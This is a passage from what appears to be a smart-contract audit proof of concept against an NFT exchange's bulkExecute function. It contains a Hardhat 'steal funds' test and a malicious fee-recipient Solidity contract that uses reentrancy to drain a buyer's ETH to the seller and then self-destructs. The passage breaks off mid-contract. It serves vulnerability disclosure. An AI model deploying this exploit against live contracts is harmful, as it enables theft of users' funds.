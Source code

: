 ```
            tokenId: i,
            paymentToken: ZERO_ADDRESS,
          });
          _executions.push({
            sell: await _sell.packNoOracleSig(),
            buy: await _buy.packNoSigs(),
          });
        }
        executions = _executions;
      });
      it("steal funds", async () => {
        let aliceBalanceBefore = await alice.getBalance();
        //price = 4 ETH
        value = price.mul(4);
        //call bulkExecute
        tx = await waitForTx(
          exchange.connect(bob).bulkExecute(executions, { value  }));
        let aliceBalanceAfter = await alice.getBalance();
        let aliceEarned = aliceBalanceAfter.sub(aliceBalanceBefore);
        //check that alice received all 4 ETH
        expect(aliceEarned).to.equal(value);
      });
    });
```

Add the following contract to mocks folder:<br>
`MockFeeRecipient.sol`:
```
pragma solidity 0.8.17;

import { Exchange } from "../Exchange.sol";
import { Execution } from "../lib/OrderStructs.sol";

contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;

    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
```